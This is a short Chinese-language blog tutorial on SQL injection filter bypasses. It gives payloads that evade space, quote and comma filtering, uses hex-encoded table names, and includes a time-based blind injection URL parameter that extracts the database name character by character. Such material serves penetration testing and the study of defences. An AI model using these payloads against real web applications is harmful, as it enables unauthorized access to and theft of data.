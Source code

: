 # [SQL注入绕过技巧](https://www.cnblogs.com/Vinson404/p/7253255.html)

## 1.绕过空格（注释符/* */，%a0）：

　　`两个空格代替一个空格，用Tab代替空格，%a0=空格：`

%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/

  最基本的绕过方法，用注释替换空格：

/*  注释 */

![](https://images2017.cnblogs.com/blog/1206476/201707/1206476-20170728221518555-1717045547.png)

使用浮点数：

select * from users where id=8E0union select 1,2,3
select * from users where id=8.0 select 1,2,3

## 2.括号绕过空格：

　　如果空格被过滤，括号没有被过滤，可以用括号绕过。

　　在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

例如：

select(user())from dual where(1=1)and(2=2)

　　这种过滤方法常常用于time based盲注,例如：

?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23

（from for属于逗号绕过下面会有）

　　上面的方法既没有逗号也没有空格。猜解database（）第一个字符ascii码是否为109，若是则加载延时。

## 3.引号绕过（**使用十六进制**）：

　　会使用到引号的地方一般是在最后的`where`子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：

select column_name  from information_schema.tables where table_name="users"

　　这个时候如果引号被过滤了，那么上面的`where`子句就无法使用了。那么遇到这样的问题就要使用**十六进制**来处理这个问题了。  
　　`users`的十六进制的字符串是`7573657273`。那么最后的sql语句就变为了：

select column_name  from information_schema.tables where table_name=0x7573657273

## 4.逗号绕过（**使用from或者offset**）：

　　在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用`from to`的方式来解决：

select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
